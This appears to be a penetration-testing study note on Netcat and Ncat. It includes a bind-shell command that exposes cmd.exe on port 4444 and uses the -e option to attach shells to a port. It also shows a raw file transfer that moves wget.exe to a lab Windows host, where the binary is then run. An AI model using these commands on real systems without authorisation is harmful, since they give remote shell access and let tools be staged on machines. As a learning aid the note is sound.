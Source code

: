 ## Netcat
[[Netcat-Cheatsheet]] and [[Netcat-As-Recon]]
### Connecting
-n skips dns name resolution
-v verbose

```bash
nc -nv <IP> 
```

### Listening
A breakdown the command below `-l` creates listener, `-p` listen port, `-n` skips dns name resolution and `-v`  adds verbosity:
```bash
nc -lvnp <IP> <PORT>
```
### Bind shell
```powershell
nc -nlvp 4444 -e cmd.exe
```

### Remote Administration
Alot of machines do not support -e option for obvious security reasons
```
-e bash
-e cmd.exe
```
##### Kali linux and general -e explainations:
```{toogle}
Kali linux has nc compiled with the flag:
`-DGAPING_SECURITY_HOLE` and enabled -e option unlike MOST modern Linux/BSD system DON'T SUPPORT -e; WHY?
-e Option can redirect 
       the input, output, 
               and error messages of an 
                   executable to a TCP/UDP port rather than the default console.
```
Receive files with nc and redirect output to file
```powershell
nc -lvnp port > incoming.exe
C:\Users\offsec> incoming.exe -h
```

Transfer files to windows
```bash
locate wget.exe
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat
[Ncat](https://nmap.org/ncat/) is a feature-packed networking utility which reads and writes data across networks from the command line.
```
  .       .       
  \`-"'"-'/       
   } 6 6 {        
  ==. Y ,==       
    /^^^\  .      
   /     \  )     
  (  )-(  )/     _
  -""---""---   / 
 /   Ncat    \_/  
(     ____        
```